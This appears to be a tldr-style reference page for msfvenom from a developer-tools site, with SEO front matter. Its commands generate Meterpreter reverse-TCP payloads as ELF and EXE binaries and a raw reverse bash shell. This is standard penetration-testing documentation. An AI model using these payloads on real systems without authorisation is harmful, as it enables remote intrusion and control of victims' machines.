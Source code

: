 ```yaml
---
title: "Generate Metasploit Payloads - Create Exploit Code | Online Free DevTools by Hexmos"
name: msfvenom
path: /freedevtools/tldr/common/msfvenom
canonical: "https://hexmos.com/freedevtools/tldr/common/msfvenom/"
description: "Generate Metasploit payloads with msfvenom. Create reverse shells, executable files and raw code for penetration testing. Free online tool, no registration required."
category: common
keywords:
- metasploit payload generation
- reverse shell generator
- exploit code creation
- msfvenom payload creator
- linux payload generator
- windows executable generator
- raw shellcode generator
- penetration testing payloads
- reverse tcp payload
- msfvenom command line
features:
- Generate payloads for various operating systems
- Create reverse TCP shells for penetration testing
- Output payloads in multiple formats like ELF, EXE, and raw
- List available payloads and formats
- Customize payload options such as LHOST and LPORT
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# msfvenom

> Manually generate payloads for metasploit.
> More information: <https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html>.

- List payloads:

`msfvenom {{[-l|--list]}} payloads`

- List formats:

`msfvenom {{[-l|--list]}} formats`

- Show payload options:

`msfvenom {{[-p|--payload]}} {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} elf {{[-o|--out]}} {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} exe {{[-o|--out]}} {{path/to/binary.exe}}`

- Create a raw Bash with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} cmd/unix/reverse_bash LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} raw`
